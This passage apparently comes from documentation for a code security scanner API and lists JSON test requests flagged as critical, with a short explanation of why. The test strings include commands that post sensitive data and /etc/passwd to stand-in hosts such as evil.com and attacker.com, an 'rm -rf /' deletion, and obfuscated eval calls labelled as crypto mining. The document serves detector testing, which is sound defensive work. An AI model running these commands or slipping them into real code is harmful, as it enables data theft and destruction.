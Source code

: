 **Multiple data exfiltration attempts:**
```json
{
  "text": "subprocess.run(['curl', '-X', 'POST', 'http://evil.com', '-d', sensitive_data]); requests.post('http://attacker.com', data=open('/etc/passwd').read())",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

### 10. **Cryptocurrency Mining**
```json
{
  "text": "eval(atob('bWluaW5nX3NjcmlwdA=='))",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

**Multiple cryptocurrency mining attempts:**
```json
{
  "text": "new Worker('data:text/javascript,mining_code'); eval(atob('bWluaW5nX3NjcmlwdA=='))",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

## 🎯 Why These Are Critical

These examples trigger **Critical** severity because they:

1. **Direct System Access**: `exec()`, `system()`, `Process.Start()`
2. **Data Destruction**: `rm -rf`, `DROP TABLE`, file deletion
3. **Security Bypass**: Authentication, authorization bypass
4. **Data Exfiltration**: Sending sensitive data to external servers
5. **Code Injection**: `eval()`, `Function()`, dynamic execution
6. **Network Attacks**: Malicious requests, data theft
7. **Privilege Escalation**: Gaining unauthorized access levels

## 🧪 Ready-to-Use API Examples

### **Quick Test (Copy & Paste)**
```json
{
  "text": "exec('rm -rf /')",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

### **Multi-Threat Test**
```json
{
  "text": "exec('malicious'); eval('hack'); system('curl evil.com'); localStorage.setItem('admin', 'true')",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```
